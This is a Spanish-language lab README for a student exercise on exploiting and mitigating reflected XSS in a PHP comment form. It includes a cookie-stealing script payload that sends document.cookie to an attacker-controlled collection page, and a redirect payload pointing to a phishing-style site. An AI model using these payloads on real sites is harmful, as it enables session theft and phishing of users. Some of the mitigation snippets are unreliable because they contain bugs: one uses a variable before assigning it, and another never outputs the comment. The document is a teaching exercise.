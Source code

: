 # PPS-Unidad3Actividad5-Angel
Explotación y Mitigación de Cross-Site Scripting (XSS)


Objetivos:

* Investigr cómo se pueden realizar ataques de Cross-Site Scripting (XSS)
* Conocer las diversas formas de ataque XSS
* Analizar el código de la aplicación que permite ataques de Cross-Site Scripting (XSS)
* Implementar diferentes modificaciones del código para aplicar mitigaciones o soluciones.

---

## ¿Qué es XSS?
Cross-Site Scripting (XSS) es una vulnerabilidad de seguridad en aplicaciones web que ocurre cuando un atacante inyecta código malicioso en una página web que no valida ni sanitiza scripts maliciosos y que se ejecutarán en el navegador de otros usuarios.

Tipos de XSS: 

* Reflejado: Se ejecuta al hacer la solicitud con un payload (desde la URL)
* Almacenado: El script se guarda en la base de datos y afecta a otros usuarios al acceder a la página.
* DOM-Based: El código malicioso se inyecta directamente en la estructura DOM del navegador sin que pase por el servidor.


---
## Actividades

* Lee detenidamente la sección de Cross-Site Scripting de la página de PortWigger <https://portswigger.net/web-security/cross-site-scripting>

* Lee el siguiente [documento sobre Explotación y Mitigación de ataques de Inyección SQL](./files/ExplotacionYMitigacionXSS.pdf) de Raúl Fuentes. Nos va a seguir de guía para aprender a explotar y mitigar ataques de inyección XSS Reflejado en nuestro entorno de pruebas.
 
* También y como marco de referencia, tienes [ la sección de correspondiente de ataque XSS reglejado de la **Proyecto Web Security Testing Guide** (WSTG) del proyecto **OWASP**.](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/07-Input_Validation_Testing/01-Testing_for_Reflected_Cross_Site_Scripting).

![](Images/img1.png)

--- 

### Código vulnerable

Creamos un archivo llamado comment.php en /www/

~~~
<?php
if (isset($_POST['comment'])) {
	echo "Comentario publicado: " . $_POST['comment'];
}
?>
<form method="post">
	<input type="text" name="comment">
	<button type="submit">Enviar</button>
</form>
~~~

El código malicioso anterior muestra un formuladio donde el usuario puede introducir comentarios en un campo de texto.
En el momento en que el usuario envía el formulario, el comentario introducido se muestra por pantalla con el siguiente mensaje: "Comentario publicado: \[comentario\]". 


El Código no sanitiza la entrada del usuario, lo que permite inyectar scripts maliciosos.


### **Explotación de XSS**
---

Abrir el navegador y acceder a la aplicación: <http://localhost/comment.php>

** Explotación 1**
Ingresar el siguiente código en el formulario:

~~~
<script>alert('XSS ejecutado!')</script>
~~~

Si aparece un mensaje de alerta (alert()) en el navegador, significa que la aplicación es vulnerable.

![](Images/img3.png)


**Explotación 2**

Podríamos redirigir a una página de phishing:

`<script>window.location='https://fakeupdate.net/win11/'</script>`



**Capturar cookies del usuario (en ataques reales):**
---
Con este ataque, un atacante podría robar sesiones de usuarios.

- Primero preparamos el **servidor atacante**:

En el caso de que estés utilizando la máquina docker de la pila LAMP, recuerda que tienes que conectarte al servicio docker  php83 primero:
~~~
docker exec -it lamp-php83 /bin/bash
~~~

Crea en tu servidor web una carpeta con nombre cookieStealer y carpetas asociadas:
~~~
mkdir /var/www/html/cookieStealer/
touch /var/www/html/cookieStealer/index.php
touch /var/www/html/cookieStealer/cookies.txt
chmod 777 /var/www/html/cookieStealer/cookies.txt
~~~
 
> Si estamos con la Pila LAMP también lo podemos hacer directamente en la ruta _./www/cookieStealer_

Copia en el archivo coockieStealer/index.php [este archivo php](files/steal.php)
 - Ataque: Si insertamos en el comentario el siguiente script
~~~
<script>document.write('<img src="http://localhost/cookieStealer/index.php?cookie='+document.cookie+'">')</script>`
~~~

En el archivo **cookie.txt** del servidor del atacante se habrán guardado los datos de nuestra cookie:

![](Images/img2.png)

Puedes investigar más en <https://github.com/TheWation/PhpCookieStealer/tree/master>

## **Mitigación**
---
**Uso de filter_input() para filtrar caracteres.**
---
Filtra caracteres problemáticos.

Crea el documento comment1.php con el siguiente contenido:

~~~
<?php
function filter_string_polyfill(string $string): string
{
    // Elimina caracteres nulos y etiquetas HTML
    $str = preg_replace('/\x00|<[^>]*>?/', '', $string);
    // Sustituye comillas por entidades HTML
    return str_replace(["'", '"'], ['&#39;', '&#34;'], $str);
}

// Verificar si el comentario ha sido enviado
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    // Obtener y sanitizar el comentario
    $comment = filter_string_polyfill($_POST['comment'] ?? ''); // Usamos '??' para manejar el caso de que no se haya enviado ningún comentario
}
?>

<form method="post">
    <label for="comment">Comentario:</label>
    <input type="text" name="comment" id="comment">
    <button type="submit">Enviar</button>
</form>
~~~

![](Images/img3.png)

La función que hemos creado al principio del documento: filter_string_polyfill nos va a eliminar todos los caracteres peligrosos y nos cambia caracteres conflictivos.

**Sanitizar la entrada con htmlspecialchars()**
---
htmlspecialchars() convierte caracteres especiales en sus equivalentes entidades HTML. Esto garantiza que incluso si el usuario ingresa una cadena que contiene etiquetas o código HTML, se mostrará como texto sin formato en lugar de que el navegador lo ejecute.
- <script> → &lt;script&gt;
- " → &quot;
- ' → &#39;

Con esta corrección, el intento de inyección de JavaScript se mostrará como texto en lugar de ejecutarse.

Crea un archivo comment2.php con el siguiente contenido 

~~~
<?php
if (isset($_POST['comment'])) {
        // para manejar el caso de que no se haya enviado ningún comentario
    // htmlspecialchars convierte caracteres especiales en equivalentes html
    $comment = htmlspecialchars($comment, ENT_QUOTES, 'UTF-8');

}
?>
<form method="post">
	<input type="text" name="comment">
	<button type="submit">Enviar</button>
</form>
~~~

![](Images/img4.png)

Aunque usar htmlspecialchars() es una buena medida para prevenir ataques XSS, todavía se puede mejorar la
seguridad y funcionalidad del código con los siguientes puntos:

**Validación de entrada**
---

Actualmente, el código permite que el usuario envíe cualquier contenido, incluyendo texto vacío o datos
demasiado largos. Puedes agregar validaciones para asegurarte de que el comentario sea adecuado:

Crea un archivo comment3.php con el siguiente contenido:
~~~
<?php
//sanitizar comentario
$comment = htmlspecialchars($_POST['comment'], ENT_QUOTES, 'UTF-8');
if (!empty($comment) && strlen($comment) <= 500) {
        echo "Comentario publicado: " . $comment;
} else {
        echo "Error: El comentario no puede estar vacío y debe tener máximo 500caracteres.";
}
?>

<form method="post">
        <input type="text" name="comment">
        <button type="submit">Enviar</button>
</form>
~~~

Evita comentarios vacíos o excesivamente largos (500 caracteres).

![](Images/img4.png)


**Protección contra inyecciones HTML y JS (XSS)**
---
Si bien htmlspecialchars() mitiga la ejecución de scripts en el navegador, se puede reforzar con strip_tags() si
solo se quiere texto sin etiquetas HTML:

`$comment = strip_tags($_POST['comment']);`

Elimina etiquetas HTML completamente. Útil si no quieres permitir texto enriquecido (bold, italic, etc.).

Si en cambio si se quiere permitir algunas etiquetas (por ejemplo, \<b\> y \<i\>), se puede hacer:

`$comment = strip_tags($_POST['comment'], '<b><i>');`

**Protección contra ataques CSRF**
---
Actualmente, cualquiera podría enviar comentarios en el formulario con una solicitud falsa desde otro sitio web.

Para prevenir esto, se puede generar un token CSRF y verificarlo antes de procesar el comentario.

En la [proxima actividad sobre ataques CSRF](https://github.com/jmmedinac03vjp/PPS-Unidad3Actividad6-CSRF) lo veremos más detenidamente.

_Generar y almacenar el token en la sesión_
~~~
session_start();
if (!isset($_SESSION['csrf_token'])) {
$_SESSION['csrf_token'] = bin2hex(random_bytes(32));
}
~~~

_Agregar el token al formulario_
`<input type="hidden" name="csrf_token" value="<?php echo $_SESSION['csrf_token']; ?>">`

_Verificar el token antes de procesar el comentario_
~~~
if (!isset($_POST['csrf_token']) || $_POST['csrf_token'] !== $_SESSION['csrf_token'])
{
die("Error: Token CSRF inválido.");
}
~~~
Estas modificaciones previenen ataques de falsificación de solicitudes (CSRF).

## Código Seguro


Crea el archivo comment4.php con todas las mitigaciones. La mitigaciones con mejoras para evitar CSRF las veremos en la siguiente actividad.

~~~
<?php
function filter_string_polyfill(string $string): string
{
    // Elimina caracteres nulos y etiquetas HTML
    $str = preg_replace('/\x00|<[^>]*>?/', '', $string);
    // Sustituye comillas por entidades HTML
    return str_replace(["'", '"'], ['&#39;', '&#34;'], $str);
}
session_start();
// Generar token CSRF si no existe
if (!isset($_SESSION['csrf_token'])) {
        $_SESSION['csrf_token'] = bin2hex(random_bytes(32));
}
if ($_SERVER["REQUEST_METHOD"] == "POST") {
        // Verificar el token CSRF
        if (!isset($_POST['csrf_token']) || $_POST['csrf_token'] !==$_SESSION['csrf_token']) {
                die("Error: Token CSRF inválido.");
        }// Verificar si el comentario ha sido enviado
        // Obtener y sanitizar el comentario
        $comment = filter_string_polyfill($_POST['comment'] ?? ''); // Usamos '??' para manejar el caso de que no se haya enviado ningún comentario
        $comment = htmlspecialchars($comment, ENT_QUOTES, 'UTF-8');
    // Validación de longitud y evitar comentarios vacíos.
    if (!empty($comment) && strlen($comment) <= 500) {
        echo "Comentario publicado: " . $comment;
    } else {
        echo "Error: El comentario no puede estar vacío y debe tener máximo 500 caracteres.";
    }
}
?>

<!DOCTYPE html>
<html lang="es">
<head>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <title>Comentarios Seguros</title>
</head>
<body>
        <form method="post">
                <label for="comment">Escribe tu comentario:</label>
                <input type="text" name="comment" id="comment" required maxlength="500">
                <input type="hidden" name="csrf_token" value="<?php echo
$_SESSION['csrf_token']; ?>">
                <button type="submit">Enviar</button>
        </form>
</body>
</html>
~~~


![](Images/img5.png)

Aquí está el código securizado:

Medidas de seguridad implementadas

1. Eliminación de etiquetas HTML y caracteres nulos:

La función filter_string_polyfill() usa preg_replace('/\x00|<[^>]*>?/', '', $string); para eliminar caracteres nulos (\x00) y cualquier etiqueta HTML (<[^>]*>?). Esto reduce la posibilidad de inyección de scripts.

2. Escapado de comillas:

En filter_string_polyfill(), las comillas simples (') y dobles (") se reemplazan por sus equivalentes en entidades HTML (&#39; y &#34;). Esto evita el cierre prematuro de atributos en HTML.

3. Uso de htmlspecialchars:

Después de aplicar filter_string_polyfill(), se vuelve a ejecutar htmlspecialchars($comment, ENT_QUOTES, 'UTF-8');, lo que convierte caracteres especiales en entidades HTML.

	- ENT_QUOTES protege contra XSS al convertir tanto comillas simples como dobles en sus versiones seguras (&#39; y &#34;).

	- UTF-8 previene ataques basados en codificaciones incorrectas.  

4. Validación de longitud y contenido:

Se valida que el comentario no esté vacío y que no supere los 500 caracteres. Aunque esto no previene directamente XSS, ayuda a limitar intentos de ataques masivos.






